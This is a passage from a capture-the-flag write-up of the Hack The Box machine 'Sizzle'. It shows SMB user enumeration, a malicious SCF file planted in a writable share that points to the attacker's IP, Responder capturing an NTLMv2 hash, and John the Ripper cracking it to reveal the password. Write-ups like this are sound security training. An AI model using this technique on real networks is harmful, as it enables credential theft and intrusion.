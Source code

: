 Checking the Users directory and I got some usernames from here.

```bash
smb: \> cd Users
smb: \Users\> ls
  .                                   D        0  Wed Jul 11 03:09:32 2018
  ..                                  D        0  Wed Jul 11 03:09:32 2018
  amanda                              D        0  Tue Jul  3 00:48:43 2018
  amanda_adm                          D        0  Tue Jul  3 00:49:06 2018
  bill                                D        0  Tue Jul  3 00:48:28 2018
  bob                                 D        0  Tue Jul  3 00:48:31 2018
  chris                               D        0  Tue Jul  3 00:49:14 2018
  henry                               D        0  Tue Jul  3 00:48:39 2018
  joe                                 D        0  Tue Jul  3 00:48:34 2018
  jose                                D        0  Tue Jul  3 00:48:53 2018
  lkys37en                            D        0  Wed Jul 11 03:09:04 2018
  morgan                              D        0  Tue Jul  3 00:48:48 2018
  mrb3n                               D        0  Tue Jul  3 00:49:20 2018
  Public                              D        0  Wed Sep 26 11:15:32 2018

		7779839 blocks of size 4096. 2558294 blocks available
```

After some enumeration, I found that we have write permission on `\Users\Public` and by checking ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share) I found that we can do SCF attack.

SCF (Shell Command Files) files can be used to access a specific UNC path (//) which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

```json
[Shell]
Command=2
IconFile=\\10.10.14.4\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

I created the .scf file and put that in Public directory. And Started my Responder on other side `responder -I tun0`.

![Untitled](/img/htb-sizzle/Untitled%201.png)

I got Amanda's hash, Time to crack it using JTR

Cracked the hash and the password is `Ashare1972`

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# john --wordlist=/usr/share/wordlists/rockyou.txt amanda 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)
1g 0:00:00:05 DONE (2020-07-30 19:29) 0.1763g/s 2013Kp/s 2013Kc/s 2013KC/s Ashiah08..Ariel!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
